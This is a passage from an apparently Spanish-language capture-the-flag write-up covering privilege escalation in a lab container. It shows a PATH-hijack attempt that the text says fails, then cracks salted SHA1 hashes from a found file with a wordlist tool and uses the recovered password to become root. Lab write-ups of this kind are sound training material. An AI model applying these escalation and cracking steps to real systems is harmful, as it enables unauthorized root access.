 Una ves inyectado modificamos nuestro **path** del usuario victima para que primero se busque en el directorio temporal y sea ejecutado el binario malicioso
```bash
export PATH=/tmp/:$PAHT
```

Por lo que despues de un rato no logramos secuestrar las librerias de python
```bash
-l /bin/bash
-rwxr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Enumerando mas directorios,
```bash
cachopin@b11b98f3df66:~/app/com/personal$ pwd
/home/cachopin/app/com/personal
```

Tenemos este archivo:
```bash
-rw-r--r-- 1 cachopin cachopin  185 Jul 25  2024 hash.lst
```

Revisando su contenido tenemos lo sigueinte:
```bash
cat hash.lst

$SHA1$d$GkLrWsB7LfJz1tqHBiPzuvM5yFb=
$SHA1$d$BjkVArB9RcGUs3sgVKyAvxzH0eA=
$SHA1$d$NxJmRtB6LpHs9vJYpQkErzU8wAv=
$SHA1$d$BvKpTbC5LcJs4gRzQfLmHxM7yEs=
$SHA1$d$LxVnWkB8JdGq2rH0UjPzKvT5wM1=
```

Para romper este cifrado nos tendremos que clonar este repositorio:
```bash
git clone https://github.com/PatxaSec/SHA_Decrypt
```

Explotamos el privilegio
```bash
❯ python3 sha2text.py 'd' '$SHA1$d$BjkVArB9RcGUs3sgVKyAvxzH0eA=' '/usr/share/wordlists/rockyou.txt'
Processing:   7%|██████████████▎                                                                   

 [+] Pwnd !!! $SHA1$d$BjkVArB9RcGUs3sgVKyAvxzH0eA=::::cecina
```

Migramos de usuario
```bash
# Comando para escalar al usuario: ( root )
su root
Password: cecina
root@b11b98f3df66:/home/cachopin/app/com/personal# 
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@b11b98f3df66:/home/cachopin/app/com/personal# whoami
root
```

